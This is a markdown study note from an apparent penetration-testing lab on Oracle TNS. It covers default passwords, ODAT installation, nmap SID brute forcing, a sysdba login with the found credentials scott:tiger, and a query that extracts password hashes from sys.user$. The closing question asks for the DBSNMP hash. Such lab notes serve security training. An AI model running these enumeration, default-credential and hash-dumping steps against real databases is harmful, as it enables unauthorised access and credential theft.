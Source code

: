- Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks
- supports IPX/SPX and TCP/IP protocols

### Default Configuration

- listens for incoming connections on the TCP/1521
- By default, Oracle TNS can be remotely managed in Oracle 8i/9i but not in Oracle 10g/11g
- listener will only accept connections from authorized hosts and perform basic authentication using a combination of hostnames, IP addresses, and usernames and passwords
- listener will use Oracle Net Services to encrypt the communication between the client and the server.
- configuration files are tnsnames.ora and listener.ora and are located in the ORACLE_HOME/network/admin directories
- Oracle 9 has a default password **CHANGE_ON_INSTALL**
- Oracle 10 has no default password set
- Oracle DBSNMP service also uses a default password, **dbsnmp**
- many organizations still use the finger service together with Oracle
- Each database or service has a unique entry in the tnsnames.ora file, containing the necessary information for clients to connect to the service
- listener.ora file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance
- Oracle databases can be protected by using so-called PL/SQL Exclusion List (PlsqlExclusionList). It is a user-created text file that needs to be placed in the $ORACLE_HOME/sqldeveloper directory, and it contains the names of PL/SQL packages or types that should be excluded from execution


### Oracle Database Attacking Tool

Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

Below is a script to download the tool and it's dependencies

```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

System Identifier, **SIDs**, are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.


**NMAP**
```
sudo nmap -p1521 -sV 10.129.204.235 --open
```

**NMAP - SID Bruteforcing**
```
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```


**Use odat.py to enumerate the oracle db**
```
./odat.py all -s 10.129.204.235
```

Credentials found - scott:tiger

**Use sqlplus to connect to Oracle db**
```
sqlplus scott/tiger@10.129.204.235/XE;
```

If you come across the following error...
```
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
```

...execute the below:
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

**Oracle RDBMS Interaction**
```
select table_name from all_tables;
```

**ORACLE RDBMS Enumeration - Logging in as Sys Admin**
```
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

**Extracting Password Hashes**
```
select name, password from sys.user$;
```

### Questions

Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.
```
```